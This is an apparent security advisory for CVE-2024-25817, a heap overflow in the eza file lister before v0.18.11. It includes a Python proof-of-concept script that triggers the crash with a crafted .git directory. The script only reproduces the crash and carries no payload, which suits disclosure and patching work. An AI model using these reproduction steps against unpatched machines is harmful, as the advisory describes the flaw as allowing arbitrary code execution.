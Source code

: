 ```yaml
---
title: "CVE-2024-25817"
published: 2024-02-07
updated: 2024-06-08
description: >-
  "In eza, there exists a potential heap overflow vulnerability, first seen when
  using Ubuntu for Raspberry Pi series system, on `ubuntu-raspi` kernel,
  relating to the `.git` directory."
tags: ["CVE"]
category: "CVE"
draft: false
---
```


# Summary

In `eza` [^1] (before `v0.18.11`), there exists a heap overflow vulnerability, first seen when using Ubuntu for Raspberry Pi series system, on `ubuntu-raspi` kernel, relating to the `.git` directory.

# Details

The vulnerability seems to be triggered by the `.git` directory in some projects. This issue may be related to specific files, and the directory structure also plays a role in triggering the vulnerability. Files/folders that may be involved in triggering the vulnerability include `.git/HEAD`, `.git/refs`, and `.git/objects`.

# PoC - If you have Raspberry Pi 4B bare metal machine

**If you don't have Raspberry Pi bare metal, you can try emulate a ubuntu for raspberry system in virtual machine.**

You just need install any one of Ubuntu for Raspberry Pi series system in your bare metal machine.

## Tested platform info

Configuration in `Raspberry Pi 4B` bare metal machine:

```bash
eza version: v0.18.10 [+git]

Linux lux 5.15.0-1049-raspi #52-Ubuntu SMP PREEMPT Thu Mar 14 08:39:42 UTC 2024 aarch64 aarch64 aarch64 GNU/Linux

Distributor ID: Ubuntu
Description: Ubuntu 22.04.4 LTS
Release: 22.04
Codename: jammy
```

> [!IMPORTANT]
> So far I have only tested the `Ubuntu 22.04.4 LTS Server` and confirmed that this vulnerability exists. I haven't test other System/Raspberry Pi yet.

## Steps

Install `eza (<=v0.18.10)` in Raspberry Pi. Process can refer to the official [wiki](https://github.com/eza-community/eza/blob/main/INSTALL.md).

```python
#!/usr/bin/env python3

import os
import shutil
import subprocess

# Step 1: Clone the repository
repo_url = "https://github.com/umami-software/umami.git"
subprocess.run(["git", "clone", repo_url])

# Step 2: Checkout to the specific commit contain the special '.git' directory that can trigger the vulnerability
repo_dir = "umami"
commit_hash = "a38baa5"
os.chdir(repo_dir)
subprocess.run(["git", "checkout", commit_hash])

# Step 3: Create a directory for the vulnerability related files
os.chdir("..")
os.mkdir("suspicious")
shutil.move(os.path.join(repo_dir, ".git"), "suspicious/.git")

# Step 4: Remove unrelated files/directories
shutil.rmtree(repo_dir)

# Step 5: Trigger the vulnerability
subprocess.run(["eza", "-l", "--git", "suspicious/.git"])
```

![](https://fastly.jsdelivr.net/gh/CuB3y0nd/picx-images-hosting@master/.23262laj6h.avif)

> [!NOTE]
> The picture shows my test environment. In actual testing, the vulnerability can be triggered by just using the above script.

# Impact

Arbitrary code execution.

# Severity using CVSS

Severity: `High 8.4`<br />
Vector string: `CVSS:3.1/AV:L/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`

# Weaknesses

- Heap-based Buffer Overflow (CWE-122)
- Improper Restriction of Operations within the Bounds of a Memory Buffer
  (CWE-119)
- Missing Release of Memory after Effective Lifetime (CWE-401)
- Improper Resource Shutdown or Release (CWE-404)
- Improper Initialization (CWE-665)

# GitHub Advisories

- GitHub Advisories.[^3]

# NIST

- National Vulnerability Database.[^4]

# Solution

Update eza to `0.18.11` or higher version.

# References

[^1]:
    [eza](https://github.com/eza-community/eza/tree/main): A modern,
    maintained replacement for ls.

[^3]: [GitHub Advisories](https://github.com/advisories/GHSA-3qx3-6hxr-j2ch)
[^4]: [CVE-2024-25817](https://nvd.nist.gov/vuln/detail/CVE-2024-25817)
